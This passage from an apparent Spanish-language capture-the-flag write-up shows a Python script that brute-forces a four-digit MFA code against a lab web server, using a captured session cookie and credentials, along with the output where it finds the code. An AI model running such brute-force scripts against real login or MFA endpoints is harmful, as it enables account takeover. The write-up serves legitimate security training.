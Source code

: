 Para encontrar el código realizaremos un script en python3, pero haciendo uso de las cabeceras donde esta la cookie de la sesión iniciada.

```python
#!/usr/bin/python3

import requests
import signal
from pwn import *

def ctrl_C(signal,frame):
	print("[+] Saliendo..")
	exit(1)

signal.signal(signal.SIGINT, ctrl_C)

url = 'http://10.10.102.15/console/mfa.php'
headers = {
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
'Accept-Language': 'es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3',
'Accept-Encoding': 'gzip, deflate, br',
'Content-Type': 'application/x-www-form-urlencoded',
'Connection': 'close',
'Cookie': 'PHPSESSID=rs5hqrij41to7vs7ri9ob5tabn; user=jason_test_account; pwd=violet'
}

def send_code():
	file=open("/usr/share/seclists/Fuzzing/4-digits-0000-9999.txt","r")
	p1=log.progress("Data Code: ")
	for code in file:
		p1.status("Validando Code: %s" %(code))
		#print(code.split())
		data = {'code': code.split()}
		response = requests.post(url, headers=headers, data=data)
		if 'Incorrect code' in response.text:
			pass
		else:
			print(code)
if __name__=='__main__':
	send_code()
```

Ejecutamos el script y esperamos unos minutos para encontrar el código.

```python
❯ python3 fuzzing.py
[▝] Data Code: : Validando Code: 1990
1835

```

Al ingresar el código valido, la web nos redijera a un panel donde se hace búsquedas de archivos y visualizarlos.
